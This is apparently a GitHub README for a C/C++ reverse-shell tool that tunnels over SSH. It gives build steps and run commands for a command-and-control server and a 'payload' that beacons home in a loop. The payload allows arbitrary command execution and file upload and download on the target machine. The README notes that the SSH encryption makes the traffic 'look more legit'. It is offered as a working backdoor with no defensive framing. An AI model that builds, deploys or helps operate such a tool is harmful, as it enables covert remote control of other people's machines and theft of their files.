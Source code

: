 # ssh-tcp-reverse-shell-cpp

A TCP reverse shell implemented in C/C++ encrypted over a SSH tunnel. ```libssh``` is used for implementing SSH and SFTP.

# Prerequisites

* You need to have ```cmake``` installed on your machine.
* You need to have ```libssh``` installed on your machine.
* You need to have a ```rsa``` key on your system

# Build

* Figure out where your ```rsa``` key file resides on the computer you'll be running the c2 instance. Adjust the ```KEYS_FOLDER``` macro in the ```c2/C2Server.h``` file.
* Adjust the host/port in the source headers.
* Configure cmake like following
  ```
    $ cmake -DCMAKE_BUILD_TYPE=Debug -G "Unix Makefiles"
  ```
* Build the executables with make ```$ make```
* Execute the server and payload
  ```
  $ ./c2
  [+] Creating C2 server...
  [+] SSH server listening on 127.0.0.1:4433...
  ```
  ```
  $ ./payload
  [+] Setting up SSH connection...
  [+] Connecting to C2...
  [+] Authenticating...
  [+] Opening communication channel...
  ```
  
 # Functionality
 
 * Arbitrary command execute
 * File upload
 * File download
 * Encrypted communication over SSH
 
 # Details
 
 The payload calls home to the c2 server in an endless loop until it receives the "quit" command. The c2 requests a command from the user upon beacon from the payload. You can send any CLI arguments and upload/download arguments in the form of:
 
 ```
 CMD > upload <localFilePath> <remoteFilePath>
 ```
 ```
 CMD > download <remoteFilePath> <localFilePath>
 ```
 
 (localFilePath := on the target machine, remoteFilePath := on the c2 machine)
 
 The communication is encrypted over SSH which makes it secure and look more legit.
 
 # Outstanding improvements
 * Implement multi-user (multiple payloads) management
 * Implement change directory cmd
 * Implement binary files transfer (currently only text-ish files)
